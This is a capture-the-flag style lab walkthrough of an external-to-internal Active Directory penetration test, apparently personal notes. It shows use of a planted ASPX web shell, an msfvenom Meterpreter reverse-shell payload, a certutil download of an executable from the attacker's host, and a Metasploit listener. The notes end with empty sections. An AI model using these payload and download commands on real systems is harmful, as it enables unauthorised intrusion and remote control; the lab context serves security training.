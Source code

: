 The complete course is [[Index |here]]
# Background
A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: ***admin:My_W3bsH3ll_P@ssw0rd!*** in place for us to start from in the /uploads directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

# Question 1: Submit the contents of the flag.txt file on the administrator Desktop of the web server

## Nmap Scan
```
┌──(root㉿kali)-[/home/z3tssu/Downloads]
└─# nmap -p80,445,135,139 -v -Pn 10.129.202.242
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-14 21:19 +04
Initiating Parallel DNS resolution of 1 host. at 21:19
Completed Parallel DNS resolution of 1 host. at 21:19, 0.00s elapsed
Initiating SYN Stealth Scan at 21:19
Scanning 10.129.202.242 [4 ports]
Discovered open port 135/tcp on 10.129.202.242
Discovered open port 80/tcp on 10.129.202.242
Discovered open port 139/tcp on 10.129.202.242
Discovered open port 445/tcp on 10.129.202.242
Completed SYN Stealth Scan at 21:19, 0.28s elapsed (4 total ports)
Nmap scan report for 10.129.202.242
Host is up (0.25s latency).

PORT    STATE SERVICE
80/tcp  open  http
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

```

## Navigating the Webserver /uploads
The instructions basically gives us a credential and a URL path to go to
http://10.129.202.242/uploads/

```
admin:My_W3bsH3ll_P@ssw0rd!
```

this seems like a directory of some sort, lets enumerate further
1. Only the antak.aspx works

![[Pasted image 20251014213138.png]]

Once we browse to the antak.aspx, we are greeted with a login page

![[Pasted image 20251014213148.png]]

lets try and use the credentials here **admin:My_W3bsH3ll_P@ssw0rd!**
![[Pasted image 20251014213315.png]]

We have access using the given credentials

## Reading the Flag.txt contents
```
cat c:\users\administrator\desktop\flag.txt
```

![[Pasted image 20251014213814.png]]

# Question 2: Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

We will have to elevate our privileges and get a proper shell on the target, lets do so using Meterpreter 

## 1. Create a PAYLOAD using MSFVenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.117 LPORT=7777 -f exe -o reverse.exe
```
## 2. Transfer the Payload to the target (certutil)

```bash
certutil.exe -urlcache -f http://10.10.14.117:8080/SHELL_ATTACK.exe SHELL_ATTACK.exe
```
## 3. Setup Listener 

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.117
LHOST => 10.10.14.117
msf6 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf6 exploit(multi/handler) > run

```
## 4. Execute the Payload on the Target



For this we will have to Kerberoast the accounts, lets try and use either PowerView or Rubeus 

## Download PowerView or Host
I already have it on my machine, but it can be downloaded here; [PowerTools/PowerView/powerview.ps1 at master · PowerShellEmpire/PowerTools · GitHub](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1)
## Host PowerView using a Python Server (attacker Machine)
```
python -m http.server 9090 
```

## Download PowerView from the Target Machine
```

```

